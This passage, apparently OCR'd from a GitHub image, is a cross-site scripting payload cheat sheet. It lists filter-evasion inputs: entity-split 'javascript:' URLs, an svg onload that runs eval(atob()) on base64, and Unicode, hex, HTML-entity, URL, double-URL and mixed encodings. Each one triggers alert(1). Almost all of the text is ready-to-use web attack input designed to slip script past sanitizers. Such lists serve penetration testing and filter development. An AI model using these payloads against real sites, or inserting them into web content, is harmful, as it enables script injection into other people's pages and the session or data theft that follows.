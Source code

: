 \’}alert(1);{//
--------------------------------------------------------------------
Embedded tab, newline, carriage return to break up XSS:
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
--------------------------------------------------------------------
Other:
<svg/onload=eval(atob(‘YWxlcnQoJ1hTUycp’))>: base64 value which is alert(‘XSS’)
--------------------------------------------------------------------

## Encoding
--------------------------------------------------------------------
Unicode:
<script>\u0061lert(1)</script>
<script>\u{61}lert(1)</script>
<script>\u{0000000061}lert(1)</script>
--------------------------------------------------------------------
Hex:
<script>eval('\x61lert(1)')</script>
--------------------------------------------------------------------
HTML:
<svg><script>&#97;lert(1)</script></svg>
<svg><script>&#x61;lert(1)</script></svg>
<svg><script>alert&NewLine;(1)</script></svg>
<svg><script>x="&quot;,alert(1)//";</script></svg>
\’-alert(1)//
--------------------------------------------------------------------
URL:
<a href="javascript:x='%27-alert(1)-%27';">XSS</a>
--------------------------------------------------------------------
Double URL Encode:
%253Csvg%2520o%256Enoad%253Dalert%25281%2529%253E
%2522%253E%253Csvg%2520o%256Enoad%253Dalert%25281%2529%253E
--------------------------------------------------------------------
Unicode + HTML:
<svg><script>&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;(1)</script></svg>
--------------------------------------------------------------------
HTML + URL:
<iframe src="javascript:'&#x25;&#x33;&#x43;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x25;&#x33;&#x45;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x25;&#x33;&#x43;&#x25;&#x32;&#x46;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x25;&#x33;&#x45;'"></iframe>
--------------------------------------------------------------------

